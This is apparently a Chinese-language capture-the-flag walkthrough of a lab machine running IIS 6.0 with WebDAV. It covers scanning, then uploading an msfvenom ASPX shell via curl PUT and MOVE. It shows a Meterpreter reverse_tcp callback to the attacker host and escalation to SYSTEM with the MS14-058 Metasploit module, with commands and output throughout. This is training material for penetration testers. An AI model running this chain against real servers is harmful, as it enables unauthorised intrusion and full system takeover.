# 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.15 -oA scans/ports
...
PORT   STATE SERVICE
80/tcp open  http
...
root@kali# nmap -sT -sC -sV -O -p80 10.10.10.15 -oA scans/details
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   WebDAV type: Unkown
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Wed, 06 Mar 2019 20:13:57 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                                                             
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

1.nmap扫描发现只开了80端口，版本是：Microsoft IIS version 6.0…
2.还启用了http-webdav…
3.发现服务器是iis6.0，那么我们推测对方服务器系统版本大概是win2003之前的系统

## WEB服务



## 目录FUZZ

用dirsearch扫一下敏感目录

```
root@kali# python3.9 dirsearch.py -u http://10.10.10.15            
...
[10:32:59] 301 -  153B  - /_private  ->  http://10.10.10.15/%5Fprivate/     
[10:32:59] 200 -  246B  - /_private/                                        
[10:33:00] 301 -  155B  - /_vti_bin  ->  http://10.10.10.15/%5Fvti%5Fbin/   
[10:33:00] 200 -  759B  - /_vti_bin/
[10:33:00] 200 -  195B  - /_vti_bin/_vti_aut/author.dll                     
[10:33:00] 200 -   96B  - /_vti_bin/shtml.dll
[10:33:00] 200 -   96B  - /_vti_bin/shtml.exe?_vti_rpc
[10:33:00] 200 -  106B  - /_vti_bin/shtml.exe/qwertyuiop
[10:33:00] 200 -  105B  - /_vti_bin/shtml.dll/asdfghjkl
[10:33:00] 200 -  246B  - /_vti_log/                                        
[10:33:00] 500 -   88B  - /_vti_pvt/users.pwt                               
[10:33:00] 301 -  155B  - /_vti_log  ->  http://10.10.10.15/%5Fvti%5Flog/   
[10:33:00] 500 -   88B  - /_vti_pvt/users.pwd
[10:33:01] 500 -   88B  - /_vti_cnf/                                        
[10:33:01] 200 -    2KB - /_vti_inf.html                                    
[10:33:01] 200 -  195B  - /_vti_bin/_vti_adm/admin.dll
 
[10:34:29] 200 -  369B  - /aspnet_client/                                   
[10:34:29] 301 -  158B  - /aspnet_client  ->  http://10.10.10.15/aspnet%5Fclient/
   
[10:36:14] 200 -  242B  - /images/                                          
[10:36:14] 301 -  149B  - /images  ->  http://10.10.10.15/images/           
[10:37:47] 200 -    2KB - /postinfo.html                                    
...
```

我们发现了有iis6.0中间件，那么我们搜索一下有没有相关漏洞.



> WebDAV是一种基于HTTP协议的扩展，它允许客户端对远程服务器上的文件进行读写操作，类似于传统的文件系统。其全称是“Web-based Distributed Authoring and Versioning”，即基于Web的分布式创作和版本控制。
> 
> WebDAV提供了以下主要功能和服务：
> 
> 1. 文件管理: **客户端可以通过WebDAV协议对远程服务器上的文件进行创建、删除、移动和重命名等操作**，就像操作本地文件系统一样。
> 2. 文件锁定: WebDAV允许客户端锁定服务器上的文件，防止其他客户端在该文件上执行写操作，从而实现文件的协作编辑。
> 3. 属性管理: 客户端可以通过WebDAV协议管理服务器上文件的元数据，比如文件的创建时间、修改时间等。
> 4. 集成版本控制: WebDAV支持一些版本控制功能，允许对文件进行版本管理，包括创建、查看和还原文件的不同版本。
> 5. 远程文件访问: **用户可以通过WebDAV协议在远程服务器上访问文件**，而无需使用专门的文件传输协议或工具。
> 6. 网络文件共享: WebDAV可用于创建基于网络的文件共享系统，允许多个用户协同工作，并且可以在不同的操作系统和平台上实现互操作性。
> 
> 总的来说，WebDAV提供了一种方便的方式，使用户能够通过网络访问和管理远程服务器上的文件，同时支持一些协作和版本控制功能，适用于许多不同的应用场景，如云存储、文档管理系统、协作编辑等。

看到了关于IIS的webdav的漏洞.

# 漏洞利用

检查响应标头：

```
root@kali# curl -I 10.10.10.15
HTTP/1.1 200 OK
Content-Length: 1433
Content-Type: text/html
Content-Location: http://10.10.10.15/iisstart.htm
Last-Modified: Fri, 21 Feb 2003 15:48:30 GMT
Accept-Ranges: bytes
ETag: "05b3daec0d9c21:358"
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
Date: Wed, 06 Mar 2019 20:15:03 GMT
Connection: close
```

可以看到标头正在使用**ASP.NET**

> 基本的Web开发网站的堆栈结构如下：
LAMP = Linux + Apache + MySQL + PHP
WISA = Windows + IIS + SQL Server + ASP.NET
> 
> 这个靶机是windows环境，所以可以利用ASP.NET来替代PHP，这里只需要找到一种方法来将文件以asp/aspx扩展名传递到服务器提权即可…（就是将合法文件上传到Web服务器，然后将其重命名为可执行文件，将扩展名更改为asp或aspx）

验证下我的思路是不是对的…

在nmap扫描中注意到 webdav 扫描显示了 PUT 和 MOVE 等方法。我也许可以通过这种方式上传文件。

```
| http-webdav-scan:
|   WebDAV type: Unkown
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Wed, 06 Mar 2019 20:13:57 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH  
```

## DAVTEST测试

> WebDAV是基于Web服务的扩展服务。它允许用户像操作本地文件一样，操作服务器上的文件。借助该功能，用户很方便的在网络上存储自己的文件。为了方便用户使用，通常会提供给用户较大的文件权限，如上传、修改甚至是执行权限。Kali Linux提供了一款WebDAV服务漏洞利用工具DAVTest。该工具会自动检测权限，寻找可执行文件的权限。一旦发现，用户就可以上传内置的后门工具，对服务器进行控制。同时，该工具可以上传用户指定的文件，便于后期利用。
> 
> davtest使用教程：https://blog.csdn.net/qq_40399982/article/details/112583196

它将向我显示可以上传哪些类型的文件，以及是否可以创建目录：davtest

```
root@kali# davtest -url http://10.10.10.15
...
********************************************************
 Sending test files
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jsp
PUT     asp     FAIL
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.php
PUT     cgi     FAIL
PUT     aspx    FAIL
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.pl
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.cfm
PUT     shtml   FAIL
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jhtml
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
********************************************************
 Checking for test file execution
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
EXEC    jsp     FAIL
EXEC    php     FAIL
EXEC    pl      FAIL
EXEC    cfm     FAIL
EXEC    jhtml   FAIL
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_l8Qkwc
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jsp
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.php
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.pl
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.cfm
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jhtml
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
...
```

可以看到文本文件是成功上传加载的…

## Meterpreter

利用msfvenom生成asp shell，然后上传到Web服务器即可



有两种上传方式：

### curl

```
root@kali# curl -X PUT http://10.10.10.15/met.txt -d @met.aspx 
root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt
```





### 结合cadaver

> cadaver：WEBDAV是基于HTTP 1.1的扩展协议，其支持使用PUT方法上传和锁定文件，基于这个特性可以实现功能强大的内容或配置管理系统。但丰富的功能特性总是会带来安全方面的更多隐患，尤其是在配置不当的情况下，可能直接给攻击者留下一个文件上传的入口。davtest是一个文件上传漏洞的检测和验证工具，而cadaver作为一个命令行形式的WEBDAV客户端程序，可以对相应服务器进行任何操作。
> 
> cadaver使用教程：https://www.shserve.cn/18422.html



将asp内容复制到txt文本中…



可以看到通过put上传文件，然后move重名了文件，即可。

## 反弹shell

curl的方式有些问题，启动 Metasploit后失败：

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.14:443 
```

触发失败了：



查看上传的met.txt文件：



发现格式有问题，重新上传，这次用于保留端行和其他控制字符：--data-binary。

> --data-binary：告诉curl将数据视为二进制数据，而不进行任何特殊处理。这意味着上传的数据将按照原始格式进行传输，不会对其进行字符编码等处理。
> 
> -d：告诉curl使用标准的URL编码格式将数据发送到服务器。这意味着上传的数据将按照URL编码格式进行传输，其中一些特殊字符可能会被转义。



没有问题了。

现在，移动文件并触发它：

```
root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt 
root@kali# curl http://10.10.10.15/met.aspx
```

成功拿到shell。

```
[*] Sending stage (179779 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.15:1032) at 2019-03-06 17:05:07 -0500

meterpreter >
```

不使用msf，可以本地直接nc监听。

# 提权



## 用本地漏洞利用检查

```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search local_exploit

Matching Modules
================

   Name                                      Disclosure Date  Rank    Check  Description
   ----                                      ---------------  ----    -----  -----------
   post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```



> 这里利用use post/multi/recon/local_exploit_suggester，这个是Metasploit中使用本地漏洞利用检查来检查系统是否存在本地漏洞，就和漏扫脚本差不多，很好的一个脚本。这里发现了7个成功率高的漏洞，都是可以成功的，利用就行。

## 尝试MS14-058

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_058_track_popup_menu
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
session => 3                                 
msf5 exploit(windows/local/ms14_058_track_popup_menu) > run

[*] Started reverse TCP handler on 10.10.14.14:4444
[*] Launching notepad to host the exploit...
[+] Process 2304 launched.
[*] Reflectively injecting the exploit DLL into 2304...
[*] Injecting exploit into 2304...
[*] Exploit injected. Injecting payload into 2304...
[*] Payload injected. Executing exploit...        
[*] Sending stage (179779 bytes) to 10.10.10.15
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 4 opened (10.10.14.14:4444 -> 10.10.10.15:1044) at 2019-03-06 17:20:47 -0500
   
meterpreter > getuid            
Server username: NT AUTHORITY\SYSTEM
```